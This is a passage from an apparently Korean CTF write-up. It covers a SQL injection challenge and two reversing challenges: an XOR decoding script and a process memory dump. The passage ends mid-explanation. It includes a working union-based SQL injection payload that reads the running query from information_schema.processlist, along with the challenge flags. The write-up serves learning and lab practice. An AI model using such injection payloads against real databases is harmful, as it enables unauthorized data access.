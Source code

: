 그리고 description을 보니까 pw를 계속 바꾼다는 말이 있어서 혹시나 싶어 돌아가는 쿼리를 뽑아봤다.

`' union select (select info from information_schema.processlist limit 0,1)-- -`

이런식으로 뽑아봤는데, 플래그가 나오더라.

` update prob8_user set pw=md5('FLAG{V3ry_H44444rd_SQL1}') where id='root' or sleep(0.1)`

Flag : `FLAG{V3ry_H44444rd_SQL1}`



## REVERSING

### ROOT_Process_1

![1545622520074](http://file.c2w2m2.com/ctf/writeup/2018ROOT/images/1545622520074.png)

대충 막 이렇게 되어있는데, Very_easy_Reversing!이라는 이름을 가진 window를 찾으면 Correct를 띄우더라.

위에

![1545622561706](http://file.c2w2m2.com/ctf/writeup/2018ROOT/images/1545622561706.png)

테이블 있길래 긁어서 밑에서 하는 연산대로 xor 시켜봤다.

```python
a = "Very_easy_Reversing!"
t = [31,41,66,15,58,50,40,29,23,49,19,21,71,87,65,69,71,11,31,68]

res = []
for i in range(0, len(a)):
	res.append(chr(ord(a[i]) ^ t[i] ))
print ''.join(res)
```

IL0veWInnnAp1236.exe 이게 나오는데, 이게 Flag 더라.

Flag : `FLAG{IL0veWInnnAp1236.exe}`



### ROOT_Process_2

까보면 위에 엄청나게 길게 변수 정의해서 hexray가 안된다.

그냥 함수이름으로 대충 보면 input 받고, 적당히 할당받아서 적당히 뭐 올려서 실행한다.

그리고 실제로도 실행시켜 보면, 프로세스가 하나 더 뜬다. 그러면 저 적당히 할당 받은대를 dump 떠보면 될듯 하다.

![1545623186877](http://file.c2w2m2.com/ctf/writeup/2018ROOT/images/1545623186877.png)

적당히 여기에 bp 를 걸고, 스택을 봐보면

![1545623246741](http://file.c2w2m2.com/ctf/writeup/2018ROOT/images/1545623246741.png)

가 있다. 대략 베이스는 아니까, 메모리 맵 가서 덤프를 뜨자. x96기준으로 그냥 가서 오른쪽 클릭해서 덤프뜰 수 있다.

덤프가 제대로 떠졌으면 ida로 분석이 가능하다. 올려서 봐주면
